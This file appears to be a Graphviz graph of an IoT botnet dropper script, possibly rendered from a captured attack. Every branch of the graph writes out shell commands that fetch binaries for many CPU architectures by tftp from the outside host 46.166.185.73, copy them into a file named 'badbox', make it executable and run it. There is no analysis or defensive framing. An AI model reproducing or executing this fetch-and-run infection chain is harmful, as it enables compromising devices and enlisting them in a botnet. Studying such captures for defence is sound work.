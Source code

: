 digraph {
0 [label="ulimit -n 1024 "];
0 -> 0
2 [label="cp /bin/busybox /tmp/ "];
2 -> 2
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 14 [label="||,"];
14 [label="tftp -r y33tmips -g 46.166.185.73 "];
14 -> 16 [label=";,"];
16 [label="cat y33tmips badbox "];
16 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 34 [label="||,"];
34 [label="tftp -r y33tmipsel -g 46.166.185.73 "];
34 -> 36 [label=";,"];
36 [label="cat y33tmipsel badbox "];
36 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 54 [label="||,"];
54 [label="tftp -r y33tsh4 -g 46.166.185.73 "];
54 -> 56 [label=";,"];
56 [label="cat y33tsh4 badbox "];
56 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 74 [label="||,"];
74 [label="tftp -r y33tx64 -g 46.166.185.73 "];
74 -> 76 [label=";,"];
76 [label="cat y33tx64 badbox "];
76 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 94 [label="||,"];
94 [label="tftp -r pandaphones -g 46.166.185.73 "];
94 -> 96 [label=";,"];
96 [label="cat pandaphones badbox "];
96 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 114 [label="||,"];
114 [label="tftp -r y33ti686 -g 46.166.185.73 "];
114 -> 116 [label=";,"];
116 [label="cat y33ti686 badbox "];
116 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 134 [label="||,"];
134 [label="tftp -r y33tppc -g 46.166.185.73 "];
134 -> 136 [label=";,"];
136 [label="cat y33tppc badbox "];
136 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 154 [label="||,"];
154 [label="tftp -r ftp -g 46.166.185.73 "];
154 -> 156 [label=";,"];
156 [label="cat ftp badbox "];
156 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 174 [label="||,"];
174 [label="tftp -r pftp -g 46.166.185.73 "];
174 -> 176 [label=";,"];
176 [label="cat pftp badbox "];
176 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 194 [label="||,"];
194 [label="tftp -r y33tsparc -g 46.166.185.73 "];
194 -> 196 [label=";,"];
196 [label="cat y33tsparc badbox "];
196 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 214 [label="||,"];
214 [label="tftp -r   -g 46.166.185.73 "];
214 -> 216 [label=";,"];
216 [label="cat   badbox "];
216 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 234 [label="||,"];
234 [label="tftp -r apache2 -g 46.166.185.73 "];
234 -> 236 [label=";,"];
236 [label="cat apache2 badbox "];
236 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
261 [label="./badbox "];
261 -> 244 [label=";,"];
244 [label="cd /tmp "];
244 -> 244
246 [label="cd /var/run "];
246 -> 248 [label="||,"];
248 [label="cd /mnt "];
248 -> 250 [label="||,"];
250 [label="cd /root "];
250 -> 252 [label="||,"];
252 [label="cd / "];
252 -> 254 [label="||,"];
254 [label="tftp -r telnetd -g 46.166.185.73 "];
254 -> 256 [label=";,"];
256 [label="cat telnetd badbox "];
256 -> 258 [label=";,"];
258 [label="badbox "];
258 -> 258
260 [label="chmod +x * "];
260 -> 261 [label=";,"];
}
